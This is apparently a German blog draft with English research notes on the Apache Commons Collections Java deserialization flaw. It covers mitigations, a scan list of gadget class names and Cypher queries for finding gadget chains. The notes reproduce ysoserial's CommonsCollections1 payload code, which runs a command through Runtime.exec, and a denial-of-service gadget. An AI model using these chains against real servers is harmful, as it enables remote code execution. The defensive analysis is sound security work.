Wenn die eigene Anwendung so etwas macht, sollte man tunlichst darauf achten, an diesen Stellen keinen aktiven Code auf deserialisierten Werten aufzurufen, und diese auch noch einmal zur Sicherheit in bekannte Datenstrukturen zu kopieren.

Für die bisher gefundene Lücke, wird empfohlen, die Apache Commons Collection Bibliothek aktualisieren auf 3.2.2 oder 4.1. 
Falls das nicht möglich ist, kann man die Jar-Datei der Bibliothek modifizieren, und die InvokerTransformer Klasse entfernen.

Man kann den Datenstrom eigener Java-Server überwachen und Pakete mit den Signaturen von Java-Serialisierung abblocken oder zumindest loggen.
Desweiteren kann nach den, im Angriff genutzten Klassennamen gescannt werden, dabei kann entweder die Paketschreibweise oder die Datei-Notation mit Schrägstrichen (`/`) statt Punkten vorkommen.

* org.apache.commons.collections4?.map.TransformedMap
* org.apache.commons.collections4?.Transformer
* org.apache.commons.collections.functors.InvokerTransformer
* org.codehaus.groovy.runtime.ConvertedClosure
* com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
* sun.reflect.annotation.AnnotationInvocationHandler

Einen sinnvollen Ansatz stellt der quelloffene Java Agent "NotSoSerial" von Eirik Bjørsnøs dar, der den Deserialisierungsvorgang kontrolliert und neben Blacklisting der bekannten, problematischen Klassen, ein Whitelisting und eine Protokollierung von deserialisierten Klassen erlaubt.

Da der Ansatz jetzt jetzt erst einmal bekannt ist, sollte es nicht zu schwer sein, ähnliche Kombinationen mit anderen häufig genutzten Bibliotheken und Tools zu finden.
Wir können uns also auf weitere, ähnliche Lücken freuen. Im schlimmsten Fall werden dass Varianten sein, die direkt in den Standardklassen von Java vorliegen.

Interessanterweise ist es gar nicht so schwierig, solche Lücken aufzuspüren, wenn die zugrundeliegende Schadenskombination erst einmal bekannt ist.
Ich möchte zum Abschluss einmal darstellen, wie man selbst mit open-source Hilfsmittel zu denselben Erkenntnissen kommen kann, wie die Sicherheitsforscher wie Chris Frohoff & Co.

== Nadel im Heuhaufen

Softwareanalyse mit Graphdatenbanken ist eines meiner Lieblingsthemen. 
Mit dem quelloffenen Framework jQAssistant ist es schnell möglich vorliegende Java-Anwendungen und Bibliotheken zu scannen.
Die ermittelten Informationen werden in der Graphdatenbank Neo4j als vernetzte Strukturen aus Klassen, Methoden, Interfaces, Paketen, Felder usw. abgelegt die eine Vielzahl von Beziehungen (Vererbung, Deklaration, Benutzung, Aufruf usw.) zu einander haben.

jQAssistant selbst kommt mit einer Menge von Plugins für das Scannen verschiedenster Quellinformationen, aber auch einer Reihe von Konzepten für die Anreicherung der Rohdaten mit abgeleiteten fachlichen und technischen Markern und Beziehungen. 
Desweiteren stellt es noch Reports für Softwarequalität und Metriken bereit.
Durch die Definition von eigenen Regeln ist es möglich, Softwarearchitektur und andere Qualitätseigenschaften unserer Softwareprojekte abzusichern.
All diese Bestandteile sind frei definierbar und leicht selbst zu schreiben, da sie auf Neo4j's Abfragesprache Cypher basieren.

Nach dem Download von jQAssistant scannen wir die relevanten Bibliotheken, in unserem Fall `rt.jar` vom JDK und `apache-commons-collections4.jar`, mittels: `bin/jqassistant.sh scan -f `lib/*.jar`.

Danach wenden wir zwei Konzepte an, zuerst zum Zusammenführen der Klassen aus verschiedenen Jars: 
Und dann zur Verknüpfung von überschriebenen Methoden, mittels einer `OVERRIDDEN_BY` Beziehung.

Damit haben wir alle notwendigen Werkzeuge in der Hand, um kritische Aufrufketten auf der Basis folgender Grundannahme zu finden:

--
Während der Deserialisierung eines serialisierbaren Objektes werden in dessen `readObject` Methode transitive Aufrufe auf den deserialisierten Daten ausgeführt, die schlussendlich bei `Method.invoke()` ankommen.
--

Mittels Neo4j's Abfragesprache Cypher können wir die beiden notwendigen Enden der Kette abbilden.

Klassen, die transitiv `Serializable` implementieren, und eine `readObject` Methode enthalten: (393 Klassen)

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]-(class),
      (class)-[:DECLARES]->(m:Method {name:"readObject"})
RETURN count(*);
----

Aufruf der Methode `Method.invoke`: (258 Aufrufe)

[source,cypher]
----
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method {name:"invoke"})
RETURN size(()-[:INVOKES]->(m)) as invocations;
----

Jetzt müssen wir nur noch den transitiven Aufruf darstellen, der von `readObject` zu `invoke` über viele Schritte erfolgen kann:

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(serialized:Class)-[:DECLARES]->(readObject:Method {name:"readObject"})
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(invoke:Method {name:"invoke"})

MATCH path = shortestPath((readObject)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 

RETURN serialized,path
ORDER BY length(path) ASC LIMIT 10;
----

Hier kann man einen der vielen Pfade sehen, die potentiell eine Gefährdung darstellen, 
den betroffenen Quellcode muss man sich noch einmal im Detail anschauen.

image::jqassistant_deserialize_vulnerability_example1.jpg[]


== Referenzen

* Vortrag von Chris Frohoff und Gabriel Lawrence bei AppSecCali2015:
** Überblick http://frohoff.github.io/appseccali-marshalling-pickles/ 
** Slides http://de.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles
** Tool ysoserial: https://github.com/frohoff/ysoserial

* Vortrag von Matthias Kaiser,
** Slides: http://de.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478 
** Video: https://www.youtube.com/watch?v=VviY3O-euVQ
* Steve Breen: Apache Commons Vulnerability, Nov 6, 2015: 
** http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
* Benedikt Ritter, CodeCentric: Hintergründe zum Geschehen:
** https://blog.codecentric.de/en/2015/11/comment-on-the-so-called-security-vulnerability-in-apache-commons-collections/
* Statement Apache Foundation: 
** https://blogs.apache.org/foundation/entry/apache_commons_statement_to_widespread
* Detaillierter InfoQ Artikel:
** http://www.infoq.com/news/2015/11/commons-exploit
* Java-Agent zur Beschränkung zu deserialiserender Klassen - Eirik Bjørsnøs: 
** http://www.infoq.com/news/2015/11/commons-exploit
* Apache Commons Collections 
** JIRA issue: https://issues.apache.org/jira/browse/COLLECTIONS-580
* US-Cert Vulnerability Notice: 
** http://www.kb.cert.org/vuls/id/576313 Nov 13
* Spring Tracker: 
** https://jira.spring.io/browse/SPR-13656
* Oracle Security Notice:
** http://www.oracle.com/technetwork/topics/security/alert-cve-2015-4852-2763333.html
* IBM Security Notice:
** http://www-01.ibm.com/support/docview.wss?uid=swg21970575
* RedHat Tracker: 
** https://access.redhat.com/solutions/2045023
* Jenkins Bugfix: 
** https://jenkins-ci.org/content/mitigating-unauthenticated-remote-code-execution-0-day-jenkins-cli
* Issue in Groovy 2.4.3:
** https://srcclr.com/catalog/vulnerabilities/1710

* http://www.zdnet.com/article/java-unserialize-remote-code-execution-hole-hits-commons-collections-jboss-websphere-weblogic/[ZD-Net]
* http://www.infoworld.com/article/3003197/security/library-misuse-exposes-leading-java-platforms-to-attack.html[Info-World]


Um die beiden Enden der Kette herauszufinden.

== Vortrag an der Ruhr Uni Bochum, Matthias Kaiser von Code White Ulm

* new bug class
* dedicated bug class on its own
* few disclosed
* vulnerabilities easy to spot?
* have to have the right classes on the classpath
* no sandbox on he server side
* serialization spec / protocol (from oracle)
* X-Stream is also affected by the attack vector

serialization: object state -> byte stream -> convert back

example serialization: Person(name, bdate)
serialVersionUID !!

"ac ed" magic number java-serialization
traverse through the tree / graph of objects and write out primitive values
+ override methods like writeReplace (replaces the object which should be serialized) writeObject (control what goes into the stream), readResolve ( replace deserialized object), readObject (full control)?

Cookies, RMI, JMX, JMS

OIS doesn't check anything, no checks, no white- / blacklists
only CNFE *after* deserialization
if classes do things in readObject / readResolve then it can be abused (esp. interesting things)

Vulnerability in Apache File Upload

DiskFile.repository can be overriden in the serialized object to point to a path on disk (is used for directory) end your "custom" target in "repository" variable with 0x0 and the rest is cut off.
The data from the stream goes into that file.

Needs null-byte vulnerability patched in Java 7u40 and Java8

How to find such vunerabilities?

Check which classes in your class path call OIS.readObject() 
for each of those check what they do with the read object

Existing Exploits

Spring Framework 2015 <= 3.0.5
Groovy 2015 <= 2.4.4
Apache Commons Collections <=

ysoserial tool to generate a serialized object representation with a given payload

Gabriel and Chris

TransformedMap to execute methods via reflection
-> "crazy"

sun...InvocationHandler (deserializable)

decorate a map with a Key-Transformer and Value-Transformer -> TransformedMap
whenever something is stored in the map
different Transformer implementations
one is an InvocationTransformer

Show Code-Snippets from TransformFactory, InvokerTransformer
from TransformedMap.Map.Entry -> setValue -> checkSetValue

interface Transformer.transform(Object)->Object

ChainTransfomer
InvokerTransformer

need to have a readObject() method which calls Map.Entry.setValue()
Found in sun.reflect.AnnotationInvocationHandler which is serializable -> http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/6-b27/sun/reflect/annotation/AnnotationInvocationHandler.java
http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/6-b27/sun/reflect/annotation/AnnotationInvocationHandler.java#AnnotationInvocationHandler.readObject%28java.io.ObjectInputStream%29

has a map of annotations and resolves them in readObject -> todo read through details
we have to replace it's memberValues map with our transformed map

Use @Target as "type" for the AnnotationInvocationHandler
then the memberValues has a field "value" (from annotation) -> ElementType[]
our provide value in our TransformedMap is "not an instance of ElementType[]" , so it triggers the "override" of the Map-Value to be a AnnotationTypeMismatchExceptionProxy which triggers our transformer

TransfomedMap("value","foo") -> call protected constructor of AnnotationInvocationHandler -> serialize to OOS

How to find such exploits, find serializable InvocationHandlers that are called

RMI/JRMI, Spring Http Invoker, JMX, JMS

You can do soemthing simple like killing the application (System.exit(0)), or have it issue requests somewhere.

Usually you get the effect, but also a class-cast exception as the payload you send is not what the app expected.

readObject is a new bug class -> very few exploits so far

// end notes from Matthias Kaiser

== content from Steve Breen's blog post

Object serialization technologies allow programs to easily convert in-memory objects to and from various binary and textual data formats for storage or transfer – but with great power comes great responsibility, because deserializing objects from untrusted data can ruin your day. We will look at historical and modern vulnerabilities across different languages and serialization technologies, including Python, Ruby, and Java, and show how to exploit these issues to achieve code execution. 

!! We will also cover some strategies to protect applications from these types of attacks.

tools: https://github.com/frohoff/ysoserial

ysoserial is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing unsafe deserialization of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

No easy fix
Furthermore it is important to understand that replacing or removing Apache Commons Collections from your application or application server is unlikely to make it safer. This is because the attack described by Lawrence and Frohoff can also use classes from other popular libraries like the Spring Framework or Groovy. There is even a class in the JDK that can be used for this attack (com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl). This is bad because “Apache Commons Collections is unsafe” is so much easier an explanation than “an application is unsafe if it uses Java Serialization in an unsafe way”. It’s no fix where you replace the old version of a library with a new version and everything is good. Instead one has to review application code and decide whether is is safe or not.

The attack explained
First of all, let me give you an idea about the attack vector described by Lawrence and Frohoff:
The attacker creates a Map and decorates it with a TransformedMap. He then adds a special implementation of the Transformers interface which use reflection to transform values (see InvokerTransformer) and instruments it to use reflection to call, for example Runtime.exec(String). The map is then sent via Java Serialization to the target of the attack. Since in Java Serialization the type of the object being send is also referenced in the binary stream, the target will create new objects from the data in the stream using the classes also included in the stream. If code accesses the deserialized map, the InvokerTransformer will be called and the attack succeeds. This is what security experts call a “gadget chain”.

So far, so good. Let’s recap which conditions an application (*) has to meet in order to be vulnerable to this attack:

Apache Commons Collections in the classpath – otherwise deserialization would fail
exposes an endpoint that takes binary data and creates objects without checking their type first
lets untrustworthy parties access the endpoint without authorization
Again, it’s important to understand that an application isn’t vulnerable because it uses Apache Commons Collections or any of the other libraries that allow for creating similar gadget chains. Applications are vulnerable because they’re deserializing untrusted data without further checking. Because this is so negligent Lawrence and Frohoff didn’t bother to report this directly to the Apache Commons project. Nevertheless the Apache Commons Project has already released a bugfix for Apache Commons Collections 3.x that has deserialization for the InvokerTransformer disabled by default (it can be reactivated explicitly using a system property).
Furthermore, there is a discussion about adding a SafeObjectInputStream to Apache Commons IO that let’s you specify classes that may be deserialized, if you really need to use Java Serialization to communicate with remotes. All other classes will be rejected before deserialization.


In January 2015, at AppSec California 2015, researchers Gabriel Lawrence and Chris Frohoff described how many Java applications and libraries using Java Object Serialization may be vulnerable to insecure deserialization of data, which may result in arbitrary code execution. Any Java library or application that utilizes this functionality incorrectly may be impacted by this vulnerability.

In November 2015, Stephen Breen of Foxglove Security identified the Apache Commons Collections (ACC) Java library as being vulnerable to insecure deserialization of data; specifically, the ACC InvokerTransformer class may allow arbitrary code execution when used to deserialize data from untrusted sources. This issue affects several large projects that utilize ACC including WebSphere, JBoss, Jenkins, WebLogic, and OpenNMS.

Both versions 3.2.1 and 4.0 of the Apache Commons Collections library have been identified as being vulnerable to this deserialization issue.

Unserialize vulnerabilities are a vulnerability class. Most programming languages provide built-in ways for users to output application data to disk or stream it over the network. The process of converting application data to another format (usually binary) suitable for transportation is called serialization. The process of reading data back in after it has been serialized is called unserialization.

Vulnerabilities arise when developers write code that accepts serialized data from users and attempt to unserialize it for use in the program. Depending on the language, this can lead to all sorts of consequences, but most interesting, and the one we will talk about here is remote code execution.


import java.io.ObjectInputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.FileOutputStream;
 
public class SerializeTest{
    public static void main(String args[]) throws Exception{
        //This is the object we're going to serialize.
        String name = "bob";
 
        //We'll write the serialized data to a file "name.ser"
        FileOutputStream fos = new FileOutputStream("name.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(name);
        os.close();
 
        //Read the serialized data back in from the file "name.ser"
        FileInputStream fis = new FileInputStream("name.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
 
        //Read the object from the data stream, and convert it back to a String
        String nameFromDisk = (String)ois.readObject();
 
        //Print the result.
        System.out.println(nameFromDisk);
        ois.close();
    }
}
The above code simply writes the String “bob” to disk using Java’s serializable interface, then reads it back in and prints the result. The following shows the output from running this code:

breens@us-l-breens:~/Desktop/SerialTest$ java SerializeTest
bob
breens@us-l-breens:~/Desktop/SerialTest$ xxd name.ser
0000000: aced 0005 7400 0362 6f62 ....t..bob
Notice the file on disk “name.ser” is binary, it has some non-printable characters. In particular the bytes “aced 0005” – these are the “magic bytes” you’ll see at the beginning of any Java serialized object.

Not particularly exciting, but a good demonstration of the basics of Java object serialization.

Matthias Kaiser Deep Dive: https://www.youtube.com/watch?v=VviY3O-euVQ

payload generator: https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java


public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };
 
    final Map innerMap = new HashMap();
 
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
 
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
 
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
 
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain    
             
    return handler;
}

== comments from ACC JIRA Issue

JIRA Issue:

With InvokerTransformer serializable collections can be build that execute arbitrary Java code. sun.reflect.annotation.AnnotationInvocationHandler#readObject invokes #entrySet and #get on a deserialized collection. If you have an endpoint that accepts serialized Java objects (JMX, RMI, remote EJB, ...) you can combine the two to create arbitrary remote code execution vulnerability.
I don't know of a good fix short of removing InvokerTransformer or making it not Serializable. Both probably break existing applications.
This is not my research, but has been discovered by other people.
https://github.com/frohoff/ysoserial
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

Indeed, I was thinking about that as well. The point is that within the same application it does not make sense to allow serialization when de-serialization will certainly fail.
This will allow people to spot regressions earlier when using the updated jar with serialization disabled.
Furthermore, as mentioned by Chris Frohoff on the mailinglist, the following classes might be unsecure as well:
InstantiateFactory
InstantiateTransformer
PrototypeFactory
I think PrototypeFactory is safe: it calls clone on an object that has been de-serialized already, but for the other 2 I am not sure. Basically they allow an attacker to call an arbitrary public constructor of any class in the application's classpath. There might be a possible attack vector for it, although none is known atm.
If we add the same fix there as well, I would also suggest to change the property to enable the serialization to that: "org.apache.commons.collections.enableUnsafeSerialization"

released 3.2.2

discussion only have security fix in 3.2.2 or also other bugfixes (might lead to people not adopting the fix)
no re-release to maven central (not that it would be possible)

I think that whatever is done with InvokerTransformer should also be done with InstantiationTransformer (and the various related Factories and Closures and such). There are classes that do unsafe things in their constructors. For that matter, there may be classes that do unsafe things in their toStrings.

There are also other vulnerable classes that allow an attacker to create a quite simple DOS attack.
A gadget like that will result in an infinite loop:
final Transformer[] transformers = new Transformer[] {
	new ConstantTransformer(Runtime.class),
	new ClosureTransformer(
	        new WhileClosure(TruePredicate.INSTANCE,
                new TransformerClosure(CloneTransformer.INSTANCE), false)),


== Finding vulnerabilities with JQA

match (t:Type) where t.fqn =~ "org.apache.commons.collection.*"
match (m:Method)<-[:DECLARES]-(t:Type)-[:EXTENDS|IMPLEMENTS]->(t0)-[:DECLARES]->(m0)
where m.name = m0.name
merge (m)<-[:OVERRIDDEN_BY]-(m0)
return count(*);

match (c:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method) where m.name ="invoke" return m.name,id(m); -> id: 1319

match (m:Method) where id(m) = 1319 return m,size((m)<-[:INVOKES]-()) as invocations; -> 258 invocations

match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t) return count(*); -> 20932

match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t)-[:DECLARES]->(m:Method {name:"readObject"}) return count(*); -> 393

match (m:Method)<-[:INVOKES]-()<-[:DECLARES]-(t) where id(m) = 1319 and t.fqn =~ "org.apache.*" eturn distinct t;

match (m:Method)<-[:INVOKES]-()<-[:DECLARES]-(t) where id(m) = 1319 and t.fqn =~ "org.apache.*" return distinct t.name; ->
IteratorUtils
InvokerTransformer
PrototypeFactory$PrototypeCloneFactory




MATCH path=(t:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->
(:Method {name:"setValue"})-[:INVOKES]->(:Method {name:"checkSetValue"})-[:OVERRIDDEN_BY]->(:Method {name:"checkSetValue"})-[:INVOKES]->
(t0:Method {name:"transform"})-[:OVERRIDDEN_BY]->(t1:Method {name:"transform"})-[:INVOKES]->(:Method {name:"invoke"})
RETURN path, [x in nodes(p) WHERE x:Method | (x)<-[:DECLARES]-()];

MATCH 
p1=(:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(:Method {name:"readObject"})-[:INVOKES]->(:Method {name:"setValue"})<-[:OVERRIDDEN_BY*]-(setValue),
p2 = (:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->
(setValue:Method {name:"setValue"})-[:INVOKES]->(:Method {name:"checkSetValue"})<-[:OVERRIDDEN_BY]-(:Method {name:"checkSetValue"})-[:INVOKES]->
(t0:Method {name:"transform"})<-[:OVERRIDDEN_BY]-(t1:Method {name:"transform"})-[:INVOKES]->(:Method {name:"invoke"})
RETURN p1,p2, [x in nodes(p1) + nodes(p2) WHERE x:Method | (x)<-[:DECLARES]-()];


match (invoke:Method) where id(invoke) = 1319
match (t1:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->(m:Method {name:"setValue"}) 
match (t2:Type {name:"InvokerTransformer"})-[:DECLARES]->(transform:Method {name:"transform"})
match (t3:Type {name:"Transformer"})-[:DECLARES]->(transform0:Method {name:"transform"}) 
match p1=allShortestPaths((m)-[:INVOKES|:OVERRIDDEN_BY*..5]-(transform0))
where none(n in nodes(p1) WHERE n.name IN ["Object","Map$Entry"])
match p2=shortestPath((transform)-[:INVOKES*..5]->(invoke))
return p1,p2

profile 
match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES*]->(invoke) return count(*); -> 271


profile 
match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})
match path = shortestPath((m)-[:INVOKES*]->(invoke)) 
where none(n in nodes(path) WHERE n:Method and n.name IN ["invokeReadResolve","getUI"])
return t,path,[n in nodes(path) | (n)<-[:DECLARES]-()];

-> none

match (invoke:Method) where id(invoke) = 1319
match (tInvoke)-[:DECLARES]->(m)-[:INVOKES*]->(invoke)
WITH tInvoke.name, m.name, count(*)
REUTRN count(*);

match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})
match path = shortestPath((m)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 
where none(n in nodes(path) WHERE n:Method and n.name IN ["invokeReadResolve","getUI"])
return t,path,[n in nodes(path) | (n)<-[:DECLARES]-()]
ORDER BY length(path) ASC skip 9 LIMIT 1;


match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)
return t,m,m2,t2

match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)<-[:EXTENDS|:IMPLEMENTS*]-(t3)
return t,m,m2,t2,t3

match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)<-[:EXTENDS|:IMPLEMENTS*]-(t3)-[:DECLARES]->(m3)
where m3.name = m2.name
return distinct t3.name

match (invoke:Method) where id(invoke) = 1319
match (t:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->(m:Method {name:"setValue"}) 
match p = shortestPath((m)-[*]->(invoke))
return p




== More links

NetApp: https://kb.netapp.com/support/index?page=content&id=9010052
Softpedia: http://news.softpedia.com/news/the-vulnerability-that-will-rock-the-entire-java-world-495840.shtml

== Text from Softpedia

Mr. Breen was able to use the RCE vulnerability and exploit applications where the Commons Collections was used, apps like WebLogic, IBM WebSphere, JBoss, Jenkins, and OpenNMS. Of course, other applications that use the Commons Collections library can also be potentially vulnerable to remote attacks, not just the ones tested by Mr. Breen, and the only condition is that the app accepts user-supplied serialized data.

We were corrected by Mr. Frohoff who said the vulnerability is in how developers treat user-supplied serialized data, and not the library itself.

Besides providing an exploit that can go with Chris Frohoff's proof-of-concept payload generator, the good news is that Mr. Breen also provided a fix for any applications that might have this issue.

== Statement der Apache Foundation:

 It is not Apache Commons Collections that is unsafe, it is applications which use Java Serialization in an unsafe way.

 If anybody asks you whether an application is unsafe because of Apache Commons Collections, explain to them that deserializing untrusted data is unsafe, not the presence of generally useful libraries.

Because the vulnerability is quite hard to understand, despite the researchers' best efforts, the issue went unnoticed for almost the entire year.

A recent talk given by Matthias Kaiser on the same topic (video below) has brought the issue back to light and spurned Steve Breen from Foxglove Security to investigate it even further in a blog post that contains all the details you'll need to successfully exploit it in various scenarios.
////